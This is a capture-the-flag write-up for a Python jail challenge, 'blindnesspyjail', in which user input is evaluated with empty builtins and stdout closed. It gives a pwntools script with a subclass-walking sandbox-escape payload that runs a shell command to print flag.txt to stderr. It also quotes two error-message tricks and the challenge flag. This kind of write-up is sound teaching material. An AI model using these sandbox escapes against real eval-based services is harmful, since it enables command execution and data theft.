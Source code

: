 # blindnesspyjail

```
what flag? can't see it.

nc challs1.pyjail.club 19992
```

Attachment:

```python
#!/usr/local/bin/python3
import sys
inp = input('blindness > ')
sys.stdout.close()
flag = open('flag.txt').read()
eval(inp, {'__builtins__': {}, 'flag': flag})
print('bye bye')
```

Although stdout is banned, we can print flag to stderr. To handle empty builtins, we can use the traditional `().__class__.__base__.__subclasses__()` trick to find `os`:

```python
from pwn import *

context(log_level="debug")

subclasses = str(().__class__.__base__.__subclasses__())

# find the indices of the builtins
# os._wrap_close is at 159 in docker
os_index = 159
# assert subclasses.split(", ").index("<class 'os._wrap_close'>") == os_index

# p = process(["python3", "main.py"])
p = remote("challs1.pyjail.club", 19992)
p.sendline(
    f"().__class__.__base__.__subclasses__()[{os_index}].__init__.__globals__['system']('cat flag.txt 1>&2')"
)
p.interactive()
```

Flag: `jail{stderr_leak_5fd787f079eb69e}`.

An elegant and simple solution is provided by @mirelgigel at [mirelgigel/writeupjailctf](https://github.com/mirelgigel/writeupjailctf): `{}[flag]` which embeds the content of `flag` in `KeyError`. @t-chen on Discord provides another: `flag(*1)`, which has the flag shown in `TypeError`.

